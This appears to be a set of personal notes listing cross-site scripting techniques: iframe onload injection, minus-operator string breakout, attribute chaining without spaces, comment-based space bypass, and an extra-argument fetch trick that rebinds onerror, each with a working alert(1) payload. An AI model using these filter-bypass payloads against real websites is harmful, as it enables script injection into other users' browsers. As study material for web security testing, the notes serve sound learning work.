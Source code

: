 - If the vulnerable code is executed in something like `hashchange`, `urlchange`... Any thing that should be changed in user browser, or need some user interaction like `onresize` Then we can use `<iframe>` 
  and put what you want to change after it `<iframe src=http//lab.com# onload="this.src+='<img src=0 onerror=alert(1)>'" >`
- use minus `-` when you have to deal with string --> `let abc= hello - alert(1)`. this will make the function get executed even if its not valid.
- - if you have `firstPElement.innerHTML = Controlled` and `newInnerHtml = firstPElement.innerHTML + Controlled` both exploitable using `img`. 
  but if `firstPElement.innerHTML = "<h1>"+ Controlled  + "</h1>"`. this one can't be exploited using `img`
- You don't need to add spaces between attribute and HTML will be able detect different attributes but you should put the value of the attributes in  `''`or `""`
```js
 <a href='academy.net/?'accesskey='X'onclick='alert(1)'/>
```
- if you have `https://asdf.com?at=ControlledValue` you can still use valid `at` by putting `&`. `https://asdf.com?at=x&dummy=abc`
- You can use `/**/` if spaces is blocked in HTML.
- if function in javascript accept only 2 arguements "Ex. `fetch()`", the function will take the first 2 arguments but if we add more than 2 `fetch(1,2,custome())`
  we can execute functions in the additional arguments, best function to start with is declaration function, then override well known function in javascript with this custom function then call it `fetch(1,2, a=x=>{throw/**/onerror=alert,1337} , toString=a , window+"")`
- In `.html` page that contain script if you have put in your input `'` it may be used to terminate the js code, but this won't work in `.js` page.